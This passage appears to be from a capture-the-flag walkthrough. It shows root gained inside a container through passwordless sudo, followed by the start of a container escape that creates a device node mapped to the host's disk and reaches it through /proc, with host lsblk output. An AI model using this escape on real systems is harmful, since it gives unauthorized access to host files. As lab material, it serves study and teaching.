 ```
Terminal type? screen
seluser@25d42bb4575d:/$

```

The seluser can run anything as root without a password:

```

seluser@25d42bb4575d:/$ sudo -l
Matching Defaults entries for seluser on 25d42bb4575d:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User seluser may run the following commands on 25d42bb4575d:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

```

I’ll switch the shell to the root user:

```

seluser@25d42bb4575d:/$ sudo -i 
root@25d42bb4575d:~# 

```

### Host Raw Disk Access

#### Strategy

Now that I have root access in the container, I’m going to create a disk device inside the container that maps to the OS filesystem on the host. I’ll make sure that the permissions are such that a non-privileged user can access the device, and create a process as the same user that I have the shell on the host so that I can get access to the device through `/proc`.

#### Create Device

To create a device, I’ll need information about the device from the host:

```

dev_acc@intuition:~$ lsblk
NAME                      MAJ:MIN RM   SIZE RO TYPE MOUNTPOINTS
loop0                       7:0    0  63.5M  1 loop /snap/core20/2015
loop1                       7:1    0  74.2M  1 loop /snap/core22/1122
loop2                       7:2    0     4K  1 loop /snap/bare/5
loop3                       7:3    0  73.9M  1 loop /snap/core22/864
loop4                       7:4    0  63.9M  1 loop /snap/core20/2182
loop5                       7:5    0 349.7M  1 loop /snap/gnome-3-38-2004/143
loop6                       7:6    0 238.8M  1 loop /snap/firefox/3252
loop7                       7:7    0 496.9M  1 loop /snap/gnome-42-2204/132
loop8                       7:8    0   497M  1 loop /snap/gnome-42-2204/141
loop9                       7:9    0 240.3M  1 loop /snap/firefox/3290
loop10                      7:10   0  91.7M  1 loop /snap/gtk-common-themes/1535
loop11                      7:11   0 111.9M  1 loop /snap/lxd/24322
loop12                      7:12   0  39.1M  1 loop /snap/snapd/21184
loop13                      7:13   0  40.9M  1 loop /snap/snapd/20290
sda                         8:0    0    15G  0 disk 
├─sda1                      8:1    0     1M  0 part 
├─sda2                      8:2    0   512M  0 part /boot
└─sda3                      8:3    0  14.5G  0 part 
  ├─ubuntu--vg-ubuntu--lv 252:0    0  13.5G  0 lvm  /var/snap/firefox/common/host-hunspell
  │                                                 /
```